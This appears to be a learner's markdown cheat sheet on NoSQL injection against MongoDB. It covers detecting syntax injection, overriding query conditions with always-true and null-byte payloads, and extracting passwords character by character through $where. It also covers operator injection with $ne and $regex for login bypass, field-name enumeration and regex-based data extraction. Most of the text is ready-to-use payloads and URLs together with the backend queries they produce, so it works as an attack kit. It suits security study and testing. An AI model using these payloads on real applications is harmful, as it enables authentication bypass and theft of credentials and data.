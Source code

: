 
# Content
- [syntax injection](#syntax-injection)
  - [Detecting syntax injection](#Detecting-syntax-injection)
  - [Overriding existing conditions](#Overriding-existing-conditions)
  - [extract data](#extract-data)
- [NoSQL operator injection](#NoSQL-operator-injection)
  - [Submitting query operators](#submitting-query-operators)
  - [Extracting field names](#extracting-field-names)
  - [Exfiltrating data](#exfiltrating-data)

## syntax injection 
- this type is very rare now

consider this mongodb query for the following examples : 
```js
db.users.find({ $where: function () { return this.name == <userInput> } });
```
or 
```js
 db.users.find({ $expr: { $function: { body: function (name) {return name == <userInput>;}, args: ["$name"], lang: "js" } } })
```


#### **Detecting syntax injection**
- submit strings and special characters that trigger a database error or some other detectable behavior 
EX : mongodb 
```mongodb
'"`{
;$Foo}
$Foo \xYZ
```
Url version : 
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- In some applications, you may need to inject your payload via a JSON property instead 
JSON version :
```

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

- Determining which characters are processed 
```
https://insecure-website.com/product/lookup?category='    => cause error
https://insecure-website.com/product/lookup?category=\'   => work
```

- Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
```

#### **Overriding existing conditions**
payload:
```
fizzy'||'1'=='1
```
url sent:
```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
mongodb query in backend :
```js
db.users.find({ $where: function () { return this.name == 'fizzy'||'1'=='1' } });
```

- You could also add a **null character** after the category value. MongoDB may ignore all characters after a null character. 
- This means that any additional conditions on the MongoDB query are ignored

**EX:** all products in the fizzy category are displayed, including unreleased products : 
```
db.products.find({ $where: function () { return 'fizzy'\u0000' && this.released == 1 });
```

#### **extract data**

to know some condtions 
```
admin' && this.password.match(/\d/) || 'a'=='b     => check if it has digits or no
```

check length
```
admin' && this.password.length < 30 || 'a'=='b
```

extract password
```
admin' && this.password[0] == 'a' || 'a'=='b
```

query in the backend
```js
db.users.find({$where : function(){ return this.name == "admin' && this.password[0] == 'a' || 'a'=='b' ; }}) ;
```





## NoSQL operator injection

Operator | Description
--- | ---
`$where` | Matches documents that satisfy a JavaScript expression. This operator allows you to write custom JavaScript functions to filter and select documents in a collection. It's a powerful but potentially slow operator, so use it with caution.
`$ne` | Matches all values that are not equal to a specified value. It's used to find documents where a specific field is not equal to a given value.
`$in` | Matches all of the values specified in an array. It's used to find documents where a specific field's value is one of the values in a provided array.
`$regex` | Selects documents where values match a specified regular expression. It's used for pattern matching to find documents with values that match a given regular expression pattern. This is especially useful for text-based searches.


#### **Submitting query operators**

In JSON:
```json
{"username":{"$ne":"invalid"}}
```
In URL-based:
```
GET : 

http://vulnApp/login/?username[$ne]=invalid

POST :

username[$ne]=invalid

```

**EX:** Auth bypass Example : 
```json 
{
"username":{
"$regex" : "admin.*"
},
"password":{
"$ne" : "ayklam"
}
}
```
#### **Extracting field names**

test
```json
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```
exploit
```json
{"username":"wiener","password":"peter", "$where":"Object.keys(this)[0].match('^a.*')"}   =>  check if the first filed data start with letter 'a'
```
query in the backend
```js
db.users.find({$where : function(){ return Object.keys(this)[1].match('^n.*')  }}) ;
```


#### **Exfiltrating data**

For example:
```json
{"username":"myuser","password":"mypass"}
```
If the response to this request is different to the one you receive when you submit an incorrect password, this indicates that the application may be vulnerable
```json
{"username":"admin","password":{"$regex":"^.*"}}  
```
extract data
```json
{"username":"admin","password":{"$regex":"^a*"}}
```
